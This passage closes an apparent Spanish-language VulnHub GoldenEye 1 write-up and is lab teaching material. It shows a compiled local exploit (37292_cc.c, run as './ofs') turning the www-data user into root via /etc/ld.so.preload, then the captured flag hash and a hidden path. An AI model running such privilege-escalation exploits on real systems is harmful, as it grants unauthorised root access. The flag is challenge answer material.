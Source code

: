 ```bash
37292_cc.c:117:13: warning: implicit declaration of function 'waitpid' is
      invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
37292_cc.c:127:5: warning: implicit declaration of function 'wait' is invalid in
      C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
www-data@ubuntu:/tmp$ ls
37292_cc.c  dirty  ofs  vmware-root
www-data@ubuntu:/tmp$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
# ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
# cat .flag.txt
Alec told me to place the codes here:

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

#
```

Vamos al directorio `/006-final/xvf7-flag/` y validamos la flag.

![flag](/assets/img/commons/vulnhub/GoldenEye1/flag.png){: .center-image }

Hope it helps!